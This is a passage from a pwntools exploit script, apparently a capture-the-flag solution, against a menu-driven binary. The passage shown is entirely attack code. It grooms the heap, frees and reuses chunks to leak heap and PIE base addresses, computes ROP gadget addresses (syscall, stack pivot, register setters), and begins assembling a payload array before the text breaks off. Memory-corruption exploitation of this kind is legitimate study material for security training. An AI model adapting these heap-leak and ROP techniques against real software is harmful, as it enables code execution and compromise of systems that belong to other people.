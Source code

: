 ```python
    r.sendlineafter(b'#: ', str(idx).encode())

def destroy(idx):
    r.sendlineafter(b'Choice: ', b'3')
    r.sendlineafter(b'#: ', str(idx).encode())

# leak heap, pie
coin([0x1111]*180, 0xbeef) # large chunk for leak
bubble([1])

fib(1)
fib(1)
fib(1)
bubble([1]) # place slow_algo to slot #5 --> #4 --> delete
fib(1)
fib(1)

destroy(0) # free 0x90
bubble([1])

fib(1)
fib(1) # resize tasks to 0x90

resume(7)
destroy(4)

resume(6)
r.recvuntil(b'Result: ')
leak = u64(r.recv(8))
dbg('leak')
pie = leak - 0x1b4278
dbg('pie')

leak = u64(r.recv(8))
dbg('leak')
heap = leak - 0x13028
dbg('heap')

# resize tasks again 
for _ in range(10):
    fib(1)

# delete another slow_algo
destroy(6)

# resize tasks to skip 0x90 sized chunk
for _ in range(15):
    fib(1)

fake = heap + 0x14490 + 0x30
setrdx = pie + 0x00150718#: mov rdx, [rax+0x28]; mov rax, [rax+0x30]; mov [rdi+0x38], rdx; mov [rdi+0x40], rax; ret;
syscall = pie + 0x0009a1a6
leave = pie + 0x0015e4d4
pivot = pie + 0x0010b4d7#: mov rbp, rdi; call qword ptr [rax+0x10];
p2 = pie + 0x0015f7a5
rdi = pie + 0x0015f7a8
rax = pie + 0x0015cc2d
rsi = pie + 0x0015fc65

payload = [i for i in range(33)]
payload[6+0] = fake
payload[6+1] = p2
```